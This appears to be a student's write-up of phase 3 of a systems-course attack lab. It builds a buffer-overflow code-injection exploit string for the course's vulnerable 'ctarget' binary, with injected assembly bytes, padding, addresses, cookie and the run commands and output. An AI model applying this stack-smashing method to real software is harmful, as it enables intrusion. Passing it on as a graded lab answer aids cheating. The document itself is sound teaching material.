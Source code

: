 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are `buffer + 8 bytes for return address of rsp + 8 bytes for touch3` 

`0x18 + 8 + 8 =  28` (40 Decimal)  

Grab the address for rsp from phase 2: `0x55620cd8`
Add 0x28
`0x55620cd8 + 0x28 = 0x55620D00`
Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55620D00,%rdi /* %rsp + 0x18 */
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 00 0d 62 55 	mov    $0x55620d00,%rdi
   7:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named phase3.txt and here is what mine looks like:
```
48 c7 c7 00 0d 62 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
d8 0c 62 55 00 00 00 00 /* return address *
7f 19 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
